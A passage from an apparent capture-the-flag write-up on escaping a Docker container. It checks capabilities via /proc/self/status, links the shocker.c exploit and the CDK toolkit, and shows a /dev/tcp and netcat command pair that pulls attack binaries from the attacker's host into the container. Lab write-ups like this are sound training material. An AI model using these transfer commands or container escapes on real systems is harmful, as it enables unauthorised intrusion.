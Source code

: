 <img src="https://i.imgur.com/NvIKeRp.png"/>

So no `capsh` binary but there's another way to view capabilites by reading `/proc/self/status` and using capsh from our local machine

https://blog.nody.cc/posts/container-breakouts-part2/

<img src="https://i.imgur.com/7wX7iKu.png"/>

<img src="https://i.imgur.com/5F7C8Sv.png"/>

Copying the value `CapBnd`  which is `00000000a80425fd`

<img src="https://i.imgur.com/yAOkyYx.png"/>

Here we can see a capability `cap_dac_read_search` which allows us to read the files from the host machine 

<img src="https://i.imgur.com/rwwrc2O.png"/>

https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3

There was an exploit written in c language which was linked in the article, I downloaded the source code and compiled on my local machine 

http://stealth.openwall.net/xSports/shocker.c

<img src="https://i.imgur.com/ubhIli9.png"/>

Since there was no wget or curl through which we can download binary , I used the `cat` to download the binary from our machine by hosting it through `nc` 

```bash
cat < /dev/tcp/10.10.14.139/1111 > test
```

```bash
nc -lnvp 1111 < test
```

<img src="https://i.imgur.com/LGb0DQo.png"/>

<img src="https://i.imgur.com/Z5kCEiE.png"/>

But this exploit failed to ran, so went on searching other exploits and found a github repo for `cdk`

<img src="https://i.imgur.com/M9bRuXn.png"/>

<img src="https://i.imgur.com/q5flLdL.png"/>

https://github.com/cdk-team/CDK

Downloaded the binary on my local machine and transferred it the same way 

<img src="https://i.imgur.com/Hvg5Ntp.png"/>

